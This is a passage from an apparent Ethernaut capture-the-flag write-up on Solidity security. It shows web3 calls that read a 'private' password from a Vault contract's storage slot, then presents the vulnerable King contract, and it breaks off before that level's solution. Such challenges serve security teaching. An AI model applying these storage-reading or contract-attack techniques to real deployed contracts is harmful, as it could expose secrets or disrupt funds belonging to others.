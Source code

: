 Only way is by calling `unlock` by correct password.

Although `password` state variable is private, one can still read a storage variable by determining it's storage slot. Therefore sensitive information should not be stored on-chain, even if it is specified `private`.

Above, the `password` is at a storage slot of 1 in `Vault`.

Read the password:

```js
// e is null/event here
await web3.eth.getStorageAt(instance, 1, (e, v) => console.log(v));
// or
await web3.eth.getStorageAt(instance, 1, (e, v) =>
  console.log(web3.utils.toAscii(v))
);
// or
password = await web3.eth.getStorageAt(contract.address, 1);
```

Useful links:

- [How do I see the value of a string stored in a private variable?](https://ethereum.stackexchange.com/questions/44893/how-do-i-see-the-value-of-a-string-stored-in-a-private-variable)
- [Solidity - Variables](https://www.tutorialspoint.com/solidity/solidity_variables.htm)
  - **State Variables** − Variables whose values are permanently stored in a contract storage.
  - **Local Variables** − Variables whose values are present till function is executing.
  - **Global Variables** − Special variables exists in the global namespace used to get information about the blockchain.

### Level 9. King

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

**Goal**: `player` has to prevent the current level from reclaiming the kingship after instance is submitted.

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); // <===
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
```